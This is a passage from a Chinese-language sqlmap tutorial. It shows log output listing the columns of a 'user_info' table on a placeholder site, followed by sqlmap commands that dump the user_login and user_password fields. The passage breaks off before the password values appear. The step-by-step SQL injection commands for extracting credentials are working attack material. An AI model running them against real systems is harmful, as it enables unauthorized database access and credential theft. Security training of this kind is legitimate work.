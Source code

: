 命令返回 5 个段:

```
[10:57:16] [INFO] fetching columns for table 'user_info' in database 'sqldummywebsite'
[10:57:18] [INFO] heuristics detected web page charset 'ISO-8859-2'
[10:57:18] [INFO] the SQL query used returns 5 entries
[10:57:20] [INFO] retrieved: user_id
[10:57:22] [INFO] retrieved: int(10) unsigned
[10:57:25] [INFO] retrieved: user_login
[10:57:27] [INFO] retrieved: varchar(45)
[10:57:32] [INFO] retrieved: user_password
[10:57:34] [INFO] retrieved: varchar(255)
[10:57:37] [INFO] retrieved: unique_id
[10:57:39] [INFO] retrieved: varchar(255)
[10:57:41] [INFO] retrieved: record_status
[10:57:43] [INFO] retrieved: tinyint(4)


```

![(https://wooyun.js.org/images_result/images/2014052915004160941.png) 

哈哈！其中的`user_login`和`user_password`字段就是我们要找的！

0x05 从指定的数据库的表中列出用户名
--------------------

SQLMAP 的 SQL 注入非常简单！再次运行下面的命令吧：

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_login --dump


```

现在我们有了数据库的用户名了：

```
[10:58:39] [INFO] retrieved: userX
[10:58:40] [INFO] analyzing table dump for possible password hashes
```

现在我们只需要这个用户的密码了，下面就来介绍如何得到密码！

0x06 提取用户密码
-----------

你可能已经习惯如何使用 SQLMAP 了！使用下面的参数来提取密码字段的数值吧！

```
sqlmap -u http://www.sqldummywebsite.com/cgi-bin/item.cgi?item_id=15 -D sqldummywebsite -T user_info -C user_password --dump


```

现在我们得到密码字段了：
